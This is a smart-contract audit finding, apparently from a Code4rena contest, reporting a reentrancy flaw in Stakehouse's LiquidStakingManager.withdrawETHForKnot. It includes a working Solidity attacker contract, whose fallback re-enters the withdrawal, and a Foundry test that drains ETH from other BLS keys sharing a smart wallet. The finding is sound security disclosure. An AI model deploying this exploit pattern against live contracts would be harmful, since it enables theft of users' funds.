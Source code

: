 # Original link
https://github.com/code-423n4/2022-11-stakehouse-findings/issues/288
# Lines of code

https://github.com/code-423n4/2022-11-stakehouse/blob/4b6828e9c807f2f7c569e6d721ca1289f7cf7112/contracts/liquid-staking/LiquidStakingManager.sol#L326


# Vulnerability details

## Impact

The ```LiquidStakingManager.sol::withdrawETHForKnot()``` allows to the BLSPubkey to withdraw from their smart wallet. The smartwallets can have multiple BLSPubKeys. The problem is that one BLSPubkey can withdraw the ether from the others BLSpubkeys on the same smartwallet.

The [LiquidStakingManager.sol::withdrawETHForKnot()](https://github.com/code-423n4/2022-11-stakehouse/blob/4b6828e9c807f2f7c569e6d721ca1289f7cf7112/contracts/liquid-staking/LiquidStakingManager.sol#L326) does not protect from reentrancy attack and with [this external call](https://github.com/code-423n4/2022-11-stakehouse/blob/4b6828e9c807f2f7c569e6d721ca1289f7cf7112/contracts/liquid-staking/LiquidStakingManager.sol#L340) the ```_recipient``` (malicious contract) can call the ```LiquidStakingManager.sol::withdrawETHForKnot()``` function again and extract all the funds from the others blspubkeys from the shared smartwallet.

## Proof of Concept

I wrote a test for the reentrancy. 

1. As a malicious contract register two BLSPubKeys for the same smartwallet.
2. Add the malicious contract as a noderunner.
3. As the malicious contract, withdraw from one BLSPubKeyOne and in the recipient parameter add the malicious contract address which will do the reentrant and get the balance from all the BLSPubKeys from the smart wallet.

**Test:**

```solidity
// MockMaliciousContract.sol
// SPDX-License-Identifier: MIT
import { LiquidStakingManager } from "../../contracts/liquid-staking/LiquidStakingManager.sol";
pragma solidity 0.8.13;


contract MockMaliciousContract {

    address manager;
    bytes blsPublicKeyOfKnot;
    uint256 counter;

    function registerBLS(
        address _manager,
        uint256 stakeAmount,
        bytes[] calldata _blsPublicKeys,
        bytes[] calldata _blsSignatures,
        address _eoaRepresentative) external {
            manager = _manager;
            (bool success, bytes memory result) = manager.call{value: stakeAmount}(
                abi.encodeWithSignature(
                    "registerBLSPublicKeys(bytes[],bytes[],address)",
                    _blsPublicKeys,
                    _blsSignatures,
                    _eoaRepresentative)
            );
            if (!success) {
                if (result.length < 68) revert();
                assembly {
                    result := add(result, 0x04)
                    }
                revert(abi.decode(result, (string)));
            }
    }

    function withdrawETHForKnot(bytes calldata _blsPublicKeyOfKnot) external {
        blsPublicKeyOfKnot = _blsPublicKeyOfKnot;
        (bool success, bytes memory result) = manager.call(
            abi.encodeWithSignature(
                "withdrawETHForKnot(address,bytes)",
                address(this),
                blsPublicKeyOfKnot)
        );
        if (!success) {
            if (result.length < 68) revert();
            assembly {
                result := add(result, 0x04)
                }
            revert(abi.decode(result, (string)));
        }
    }

    function depositToContract() external payable {}

    // Fallback
    fallback() external payable {
        ++counter;
        if (counter < 2) {
            (bool success, bytes memory result) = manager.call(
                abi.encodeWithSignature(
                    "withdrawETHForKnot(address,bytes)",
                    address(this),
                    blsPublicKeyOfKnot)
            );
            if (!success) {
                if (result.length < 68) revert();
                assembly {
                    result := add(result, 0x04)
                    }
                revert(abi.decode(result, (string)));
            }
        }
    }
}
```

```solidity
// LSDNFactory.t.sol
// forge test -m "test_0xbepresent_RegisterKeysAndWithdrawETHReentrancy" -vvv
import { MockMaliciousContract } from "../../contracts/testing/MockMaliciousContract.sol";

function test_0xbepresent_RegisterKeysAndWithdrawETHReentrancy() public {
    //
    // Reentrancy on LiquidStakingManager.sol::withdrawETHForKnot()
    // 1. As the malicious contract. Register TWO pubkeys to the same smartwallet
    // 2. Add malicious contract as a noderunner
    // 3. As the malicious contract, withDrawETHForKnot. Reentrant and get all the balance from the SmartWallet
    // Get the balance from blsPubKeyOne and blsPubKeyTwo
    address house = address(new StakeHouseRegistry());
    MockMaliciousContract maliciouscontract = new MockMaliciousContract();

    uint256 nodeStakeAmount = 8 ether;

    // Give the malicious contract ether
    address xuser = accountThree; vm.deal(xuser, 24 ether);
    vm.prank(xuser);
    maliciouscontract.depositToContract{value: 10 ether}();
    assertEq(address(maliciouscontract).balance, 10 ether);

    address eoaRepresentative = accountTwo;

    MockAccountManager(manager.accountMan()).setLifecycleStatus(blsPubKeyOne, 0);

    //
    // 1. As the malicious contract. Register TWO pubkeys to the same smartwallet
    //
    maliciouscontract.registerBLS(
        address(manager),
        nodeStakeAmount,
        getBytesArrayFromBytes(blsPubKeyOne, blsPubKeyTwo),
        getBytesArrayFromBytes(blsPubKeyOne, blsPubKeyTwo),
        eoaRepresentative);

    //
    // 2. Add malicious contract as a noderunner
    //
    address nodeRunner = address(maliciouscontract);

    // Check the nodeRunner (maliciouscontract) is registered
    MockAccountManager(manager.accountMan()).setLifecycleStatus(blsPubKeyOne, 1);
    MockAccountManager(manager.accountMan()).setLifecycleStatus(blsPubKeyTwo, 1);
    manager.setIsPartOfNetwork(blsPubKeyOne, true);
    manager.setIsPartOfNetwork(blsPubKeyTwo, true);
    address nodeRunnerSmartWallet = manager.smartWalletOfNodeRunner(nodeRunner);
    assertEq(nodeRunnerSmartWallet.balance, 8 ether);
    assertEq(address(maliciouscontract).balance, 2 ether);

    //
    // 3. As the malicious contract, withDrawETHForKnot. Reentrant and get all the balance from the SmartWallet
    // Get the balance from blsPubKeyOne and blsPubKeyTwo
    //
    maliciouscontract.withdrawETHForKnot(
        blsPubKeyOne
    );
    assertEq(address(maliciouscontract).balance, 10 ether);  // I can get 8 eth
}
```


## Tools used
Foundry/VisualStudio

## Recommended Mitigation Steps

Add a reentrant protection.
